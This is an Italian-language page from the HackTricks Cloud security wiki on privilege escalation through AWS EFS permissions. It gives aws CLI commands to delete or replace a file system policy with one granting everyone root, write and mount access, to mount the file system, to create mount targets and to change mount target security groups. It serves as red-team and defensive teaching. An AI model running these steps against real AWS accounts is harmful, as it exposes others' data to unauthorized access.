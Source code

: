 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Ulteriori **info su EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Ricorda che per montare un EFS devi essere in una sottorete in cui l'EFS è esposto e avere accesso ad esso (gruppi di sicurezza). Se ciò accade, per impostazione predefinita, sarai sempre in grado di montarlo, tuttavia, se è protetto da politiche IAM, devi avere i permessi aggiuntivi menzionati qui per accedervi.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con uno di questi permessi un attaccante può **cambiare la politica del file system** per **darti accesso** ad esso, o semplicemente **eliminarlo** in modo che l'**accesso predefinito** venga concesso.

Per eliminare la politica:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Per cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con questo permesso, un attaccante sarà in grado di **montare l'EFS**. Se il permesso di scrittura non è concesso per impostazione predefinita a tutti coloro che possono montare l'EFS, avrà solo **accesso in lettura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Le autorizzazioni extra `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` possono essere utilizzate per **scrivere** all'interno del filesystem dopo che è stato montato e per **accedere** a quel filesystem **come root**.

**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel filesystem.

### `elasticfilesystem:CreateMountTarget`

Se un attaccante si trova in una **sottorete** dove **non esiste alcun mount target** dell'EFS. Potrebbe semplicemente **crearene uno nella sua sottorete** con questo privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In uno scenario in cui un attaccante scopre che l'EFS ha un target di montaggio nella sua sottorete ma **nessun gruppo di sicurezza consente il traffico**, potrebbe semplicemente **cambiare ciò modificando i gruppi di sicurezza selezionati**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel file system.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
